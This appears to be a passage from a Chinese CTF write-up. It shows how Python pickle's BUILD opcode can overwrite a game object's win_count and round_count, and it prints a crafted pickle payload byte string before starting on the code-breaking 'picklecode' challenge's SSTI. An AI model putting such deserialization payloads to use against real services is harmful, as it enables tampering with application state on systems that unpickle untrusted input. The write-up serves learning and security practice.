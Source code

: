 如果我们能直接修改win_count或者max_round就可以拿到flag了

我们发现在`guess_game`中已经有一个`game = Game()`这个了,也就是我们可以利用pickle来加载这个game直接修改

那么接下来就是如何修改了

在pickle的操作码中我们发现

`BUILD          = b'b'   # call __setstate__ or __dict__.update()`这一条

其中update()就可以修改game的属性了

那么接下来就只有一个问题了,操作码`b`如何使用

一路跟踪发现b操作码的实现

```python
    def load_build(self):
        stack = self.stack
        state = stack.pop()
        inst = stack[-1]
        setstate = getattr(inst, "__setstate__", None)
        if setstate is not None:
            setstate(state)
            return
        slotstate = None
        if isinstance(state, tuple) and len(state) == 2:
            state, slotstate = state
        if state:
            inst_dict = inst.__dict__
            intern = sys.intern
            for k, v in state.items():
                if type(k) is str:
                    inst_dict[intern(k)] = v
                else:
                    inst_dict[k] = v
        if slotstate:
            for k, v in slotstate.items():
                setattr(inst, k, v)
```

没有调用参数,栈顶应为字典,栈顶的下面是要修改的对象

最后的payload:

```python
b"cguess_game\ngame\n(S'win_count'\nI10\nS'round_count'\nI10\ndb\x80\x03cguess_game.Ticket\nTicket\nq\x00)\x81q\x01}q\x02X\x06\x00\x00\x00numberq\x03K\x01sb."
```



### code breaking picklecode



[题目链接]( https://github.com/phith0n/code-breaking/blob/master/2018/picklecode )

代码审计发现在index处可以ssti
